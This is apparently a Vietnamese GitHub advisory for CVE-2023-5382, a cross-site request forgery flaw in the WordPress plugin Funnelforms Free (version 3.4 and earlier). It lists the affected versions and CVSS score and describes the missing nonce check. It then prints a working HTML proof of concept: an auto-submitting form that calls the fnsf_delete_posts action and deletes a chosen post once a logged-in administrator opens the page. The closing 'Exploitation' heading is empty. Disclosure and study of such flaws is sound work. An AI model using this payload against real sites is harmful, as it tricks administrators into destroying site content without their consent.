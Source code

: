 # CVE-2023-5382

- Plugin : Funnelforms Free
- Phiên bản lỗi : <=3.4
- Lỗi : Cross-Site Request Forgery to Arbitrary Post Deletion
- CVSS Score: 6.5 (MEDIUM)

# Mô tả

- Plugin Funnelforms Free dành cho WordPress dễ bị tấn công bởi Giả mạo yêu cầu trên nhiều trang web ở các phiên bản lên đến và bao gồm cả 3.4. Điều này là do xác thực nonce bị thiếu hoặc không chính xác trên hàm fnsf_delete_posts. Điều này giúp những kẻ tấn công không được xác thực có thể xóa các bài đăng tùy ý thông qua một yêu cầu giả mạo với điều kiện là chúng có thể lừa quản trị viên trang web thực hiện một hành động chẳng hạn như nhấp vào liên kết.

# POC

- PoC (This will delete the form with ID 1)

`<html>

  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="af2&#95;fnsf&#95;delete&#95;posts" />
      <input type="hidden" name="post&#95;ids&#91;&#93;" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>`

# Khai Thác
